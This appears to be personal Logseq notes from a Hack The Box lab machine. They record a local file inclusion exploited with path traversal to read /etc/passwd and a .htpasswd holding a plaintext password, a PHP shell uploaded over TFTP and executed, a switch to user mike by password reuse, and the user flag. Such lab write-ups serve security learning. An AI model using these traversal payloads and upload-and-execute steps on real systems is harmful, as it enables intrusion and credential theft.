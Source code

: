 - Open ports
	- TCP
	  
	  ```
	  80/tcp open  http
	  ```
	- UDP
	  id:: 655238b7-09f8-454b-ba4a-40a2d4b29455
	  
	  ```
	  68/udp open|filtered dhcpc
	  69/udp open|filtered tftp
	  ```
- Finding
	- LFI at `http://10.129.38.202/?file=`
	  id:: 655238e3-68b6-42e6-9ec4-6edf9f86c35e
	- OS usernames
	  *Fetched from `http://10.129.38.202/?file=../../../../../../../../etc/passwd`*
	  ```
	  # Only list the most interesting ones
	  root
	  [...]
	  backup
	  mike
	  tftp
	  [...]
	  ```
	- CANCELED Tested RFI but didn't work
	- Try to use `gobuster` to search for known dotfiles in `/home/mike`
	  *Used this dotfiles oriented [wordlist](https://github.com/Karanxa/Bug-Bounty-Wordlists/blob/main/dotfiles.txt)*.
	  ```bash
	  > gobuster fuzz -u "http://10.129.38.202/?file=../../../../../../../../home/mike/FUZZ" -w wordlist-dotfiles.txt --exclude-length 0
	  [...]
	  Found: [Status=200] [Length=15] [Word=.bash_profile] http://10.129.38.202/?file=../../../../../../../../home/mike/.bash_profile
	  Found: [Status=200] [Length=220] [Word=.bash_logout] http://10.129.38.202/?file=../../../../../../../../home/mike/.bash_logout
	  Found: [Status=200] [Length=3771] [Word=.bashrc] http://10.129.38.202/?file=../../../../../../../../home/mike/.bashrc
	  Found: [Status=200] [Length=807] [Word=.profile] http://10.129.38.202/?file=../../../../../../../../home/mike/.profile
	  ```
	  No interesting files found.
	- Found an interesting `.htpasswd` file
	  id:: 65523a47-5070-40a1-af56-9b48b9b351b4
	  
	  ```bash
	  > curl "http://10.129.38.202/?file=../../../../../../../../var/www/html/.htpasswd"
	  mike:Sheffield19
	  ```
	  ===TODO===: Search for a wordlist optimized for webservers file and use it with `gobuster`.
	  #+BEGIN_CAUTION
	  mike:Sheffield19
	  #+END_CAUTION
	  
	  #+BEGIN_TIP
	  I now have the username and password coming from a `.htpasswd` file. Maybe `mike` reuse the same password for his OS user.
	  #+END_TIP
	- I can upload files via [TFTP](logseq://graph/HTB-Notes?block-id=655238b7-09f8-454b-ba4a-40a2d4b29455) and execute php file via the [LFI](logseq://graph/HTB-Notes?block-id=655238e3-68b6-42e6-9ec4-6edf9f86c35e).
		- Upload a php shell via TFTP.
		- Execute the php shell with the LFI.
		- ```bash
		  > id
		  uid=33(www-data) gid=33(www-data) groups=33(www-data)
		  > www-data@included:/$ su mike
		  Password: Sheffield19
		  > id
		  uid=1000(mike) gid=1000(mike) groups=1000(mike),108(lxd)
		  ```
	- **User flag** at `/home/mike/user.txt`
	  background-color:: green
	- a56ef91d70cfbf2cdb8f454c006935a1